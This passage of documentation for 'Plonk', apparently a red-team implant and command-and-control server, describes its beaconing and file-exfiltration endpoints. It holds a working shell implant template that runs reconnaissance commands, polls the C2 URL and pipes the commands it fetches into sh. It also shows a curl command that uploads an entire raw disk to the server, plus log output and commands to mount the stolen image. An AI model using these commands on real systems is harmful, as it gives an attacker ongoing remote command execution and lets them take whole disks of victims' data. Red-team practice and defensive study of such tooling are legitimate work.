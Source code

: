 [`curlgen.tmpl`](../internal/server/implantsvr/curlgen.tmpl) is used.

#### Example
This template runs a few commands for situational awareness then beacons back
to Plonk every two seconds for an hour.
```sh
export PLONK_ID="{{ .RandN }}-$(hostname)-$$"
(
        echo 'ps awwwfux || ps auxwww; uname -a; id; pwd'
        curl -sw '\n' --rate 30/m "{{ .URL }}/t/$PLONK_ID?n=[0-1800]"
        PLONK_DONE=!$PLONK_DONE
) | sh | while ! $PLONK_DONE; do
        timeout 2s cat | curl -T. -s -m 10 "{{ .URL }}/o/$PLONK_ID"
done
```

Exfil (`/p`)
------------
Data too large to be sent with `/o` or which should be stored in a file may
be sent to `/p`.

The maximum size of efxil which will be saved defaults to 100MB but may be set
using the `-exfil-max` flag when starting the server.  Exfil handling may be
disabled altogether with `-exfil-max 0`.

The first element of the path after `/p` is assumed to be an Implant ID, though
in practice this isn't strictly necessary.  Using an Implant ID has the nice
effect of showing it if that ID has been selected with `,seti`.

### Example
#### Target:
Send back a largeish file from implant `kittens`.
```sh
# This is a pretty terrible idea, unless the target has a really tiny disk.
curl -sT /dev/sda https://example.com/p/kittens/dev/sda
# Neat party trick, though.
```

#### Client:
It's made it back.
```
2024/01/20 00:40:19 [EXFIL] Wrote 26214400 bytes from 127.0.0.1:38644 to
/home/h4x0r/plonk.d/exfil/kittens/dev/sda
```

#### Server:
Make use of the exfil'd file.
```sh
doas vnconfig vnd0 ~/plonk.d/exfil/kittens/dev/sda
doas mount /dev/vnd0i /mnt
```
